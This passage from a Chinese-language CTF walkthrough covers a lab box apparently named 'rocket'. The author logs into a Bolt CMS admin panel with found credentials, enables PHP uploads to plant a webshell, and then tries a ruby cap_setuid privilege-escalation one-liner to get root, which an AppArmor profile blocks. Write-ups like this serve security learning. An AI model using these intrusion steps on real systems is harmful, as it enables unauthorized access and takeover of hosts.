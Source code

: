 访问我们的 `Bolt` 进行登录, 在这里我使用 `admin:1q2w3e4r5` 成功登录目标站点, 之后就是上传 webShell  一套操作

![image-20240709232134079](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-232135.png)

我们需要修改后台配置, 才可以上传 PHP 文件, 具体上传配置查看

### alvin

之后访问我们上传的文件即可获取到 Shell, 同时这也是真实物理主机

![image-20240709232216269](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-232217.png)

### alvin —> root

之后查看发现一个特殊的程序, 其具有特殊的功能 [ruby#capabilities](https://gtfobins.github.io/gtfobins/ruby/#capabilities)

```bash
(remote) alvin@rocket:/$ getcap -r / 2>/dev/null
/usr/bin/ruby2.5 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

但是执行会发现无法利用, 对此询问 GPT 回答告诉我对应程序没有特权, 估计是做了限制

```bash
(remote) alvin@rocket:/$ /usr/bin/ruby2.5 -e 'Process::Sys.setuid(0); exec "/bin/sh"'
Traceback (most recent call last):
	1: from -e:1:in `<main>'
-e:1:in `setuid': Operation not permitted (Errno::EPERM)
```

经过相关了解后, 我意识到这里存在 apparmor 限制, 之后经过搜索发现对应的配置文件

```bash
(remote) alvin@rocket:/$ find / -type f 2>/dev/null | grep ruby
.....
/etc/apparmor.d/cache/usr.bin.ruby2.5
/etc/apparmor.d/usr.bin.ruby2.5
/etc/apparmor.d/abstractions/ruby
....
(remote) alvin@rocket:/$ cat /etc/apparmor.d/usr.bin.ruby2.5
# Last Modified: Mon Jun 14 23:01:44 2021
#include <tunables/global>

/usr/bin/ruby2.5 {
  #include <abstractions/base>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /etc/passwd r,
  /bin/cat mrix,
  /bin/cp mrix,
  /bin/ls mrix,
  /usr/bin/whoami mrix,
  /tmp/.X[0-9]*-lock rw,
  /lib/x86_64-linux-gnu/ld-*.so mr,
  /usr/bin/ruby2.5 mr,
  /usr/share/rubygems-integration/all/specifications/ r,
  /usr/share/rubygems-integration/all/specifications/did_you_mean-1.2.0.gemspec r,
  /{usr/,}lib{,32,64}/** mr,

}
(remote) alvin@rocket:/$
```